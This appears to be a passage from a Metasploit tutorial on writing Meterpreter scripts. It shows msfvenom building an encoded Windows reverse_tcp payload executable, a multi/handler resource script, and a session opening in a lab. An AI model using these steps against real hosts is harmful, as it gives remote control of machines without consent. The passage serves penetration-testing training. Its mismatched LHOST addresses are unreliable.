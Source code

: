 There are a few things you need to keep in mind when creating a new Meterpreter script.

    - Not all versions of Windows are the same
    - Some versions of Windows have security countermeasures for some of the commands
    - Not all command line tools are in all versions of Windows
    - Some of the command line tools switches vary depending on the version of Windows

In short, the same constraints that you have when working with standard exploitation methods. MSF can be of great help, but it can’t change the fundamentals of that target. Keeping this in mind can save a lot of frustration down the road. So keep your target’s Windows version and service pack in mind, and build to it.

For our purposes, we are going to create a stand alone binary that will be run on the target system that will create a reverse Meterpreter shell back to us. This will rule out any problems with an exploit as we work through our script development.

```
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe

Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: Meterpreter.exe
```

Wonderful. Now, we move the executable to our Windows machine that will be our target for the script we are going to write. We just have to set up our listener. To do this, lets create a short script to start up multi-handler for us.

```
root@kali:~# touch meterpreter.rc
```

```
root@kali:~# echo use exploit/multi/handler >> meterpreter.rc
```

```
root@kali:~# echo set PAYLOAD windows/meterpreter/reverse_tcp >> meterpreter.rc
```

```
root@kali:~# echo set LHOST 192.168.1.184 >> meterpreter.rc
```

```
root@kali:~# echo set ExitOnSession false >> meterpreter.rc
```

```
root@kali:~# echo exploit -j -z >> meterpreter.rc
```

```
root@kali:~# cat meterpreter.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.184
set ExitOnSession false
exploit -j -z
```

Here we are using the exploit/multi/handler to receive our payload, we specify that the payload is a Meterpreter reverse_tcp payload, we set the payload option, we make sure that the multi handler will not exit once it receives a session since we might need to re-establish one due to an error or we might be testing under different versions of Windows from different target hosts.

While working on the scripts, we will save the test scripts to `/usr/share/metasploit-framework/scripts/meterpreter` so that they can be run.

Now, all that remains is to start up msfconsole with our our resource script.

```
root@kali:~# msfconsole -r meterpreter.rc

       =[ metasploit v4.8.2-2014021901 [core:4.8 api:1.0] ]
+ -- --=[ 1265 exploits - 695 auxiliary - 202 post ]
+ -- --=[ 330 payloads - 32 encoders - 8 nops      ]

resource> use exploit/multi/handler
resource> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource> set LHOST 192.168.1.184
LHOST => 192.168.1.184
resource> set ExitOnSession false
ExitOnSession => false
resource> exploit -j -z
[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Starting the payload handler...
```

As can be seen above, Metasploit is listening for a connection. We can now execute our executable in our Windows host and we will receive a session. Once the session is established, we use the sessions command with the `–i` switch and the number of the session to interact with:

```
[*] Sending stage (718336 bytes)
[*] Meterpreter session 1 opened (192.168.1.158:4444 -> 192.168.1.104:1043)

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```